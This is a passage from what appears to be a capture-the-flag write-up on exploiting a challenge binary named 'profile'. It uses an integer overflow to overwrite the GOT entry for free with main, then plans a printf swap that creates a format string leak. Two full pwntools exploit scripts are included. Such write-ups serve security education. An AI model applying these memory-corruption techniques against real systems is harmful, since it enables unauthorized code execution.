 So, in order to fix this, we must limit the output to `3 bytes` only. We can do this by using the `[:-1]` when 32-bit-packing the address or, `[:3]`. Both of this will do the same thing. The updated `exploit.py` becomes:

```python
#!/usr/bin/env python3

from pwn import *

def overflow(addr: int):
	return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile")
# io = process()

gdbscript = '''
init-pwndbg
b *main
b *free
continue
'''
io = gdb.debug(['./profile'], gdbscript=gdbscript)

io.sendlineafter(b"Age", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])
```

![Alt text](/static/writeups/blackhatmea23-quals/image-5.png)

By running this, we can see that `free` has been overwritten with `main`. Giving us an `N` number of writes. Now, we can move on to the next step.

### Overwriting another function in GOT with printf to give us an fsb vulnerability and hence gives us leaks

Now, since we have `N` functions of arbitrary writes, we can easily overwrite as many primitives as we want.

> During solving, I tried to overwrite exit with main, but it didn't work, it just crashed. So, to fix this, I overwrote free with main and then overwrote exit with main. And then, finally overwriting free with printf to give us the Format String Bug.

Now, firstly, what we need to do, is simply overwrite exit with main, as that will help us maintain the `N` number of writes. After that, what we need to do, is overwrite `free` with `printf` because we control the `name` variable, and this can give us the Format String Bug because we can directly pass the pointer's data as input to `printf` function. Therefore, the next thing which we'll pass is simply "HELLO|%p|%p", to the `Name` input, which will print HELLO and two addresses. (As we have overwritten `free` with `printf`).

So, keeping this in mind, the updated `exploit.py` becomes:

```python
#!/usr/bin/env python3

from pwn import *

def overflow(addr: int):
	return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile")
io = process()

log.info("Overwriting free(%#x) with main(%#x)" % (elf.got.free, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])
```